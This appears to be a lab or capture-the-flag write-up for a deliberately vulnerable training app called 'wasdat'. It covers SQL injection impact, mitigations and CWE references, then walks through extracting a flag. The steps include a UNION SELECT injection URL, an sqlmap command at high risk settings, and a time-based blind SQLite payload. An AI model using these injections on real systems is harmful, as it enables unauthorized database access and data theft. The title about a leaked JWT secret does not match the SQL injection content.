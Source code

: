 
* Impact estimation: **Critical**  

    * Complete compromise of the underlying database, potentially leading to unauthorized viewing of data, corrupting or deleting data, and other forms of data manipulation.
    * Possibility to escalate the attack and gain control over the host machine or internal network in some cases.

* Mitigation:

    * Use parameterized queries or prepared statements to avoid direct inclusion of user inputs in SQL queries.  
    * Ensure proper error handling is in place to prevent detailed error messages from revealing database information.  
    * Regularly update and patch the database software to fix known vulnerabilities.  
        * See:
            * https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

* Related OWASP CWE:
    * CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')  
    * CWE-213: Intentional Information Disclosure  
    * CWE-564: SQL-Injection through SOAP Message  

---


#### Main target - Retrieve flag from database via SQL injection :

**Title:** JWT Token `secret` has leaked, which is librarys default value.

**Description:** There's company's biggest secret hidden in database, but the wasdat query is implemented poorly and it is vulnerable for SQL injection. You need to find hidden flag from wasdat database. Django lets you to write raw SQL queries, user input is used as part of the SQL query and user input is not properly escaped feature will be vulnerable to SQL injections.

**Steps to produce:**  
1. Navigate to: `http://wasdat.fi`.
2. Head in to search field and make empty search.
3. Take the URL from the search query: `http://wasdat.fi/search?product=`.
4. Test sql injection: `http://wasdat.fi/search?product=')) UNION SELECT 1--`. Output is "invalid search term". This hints for vulnerability.
5. Open Kali CLI and use `sqlmap` with command: 
```bash 
sqlmap -u http://wasdat.fi/search?product= --dbs --level=3 --risk=3
```   
Output:  

    > sqlmap identified the following injection point(s) with a total of 6701 HTTP(s) requests:
    ---
    Parameter: product (GET)
        Type: time-based blind
        Title: SQLite > 2.0 AND time-based blind (heavy query)
        Payload: product=' AND 1596=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- DqrJ
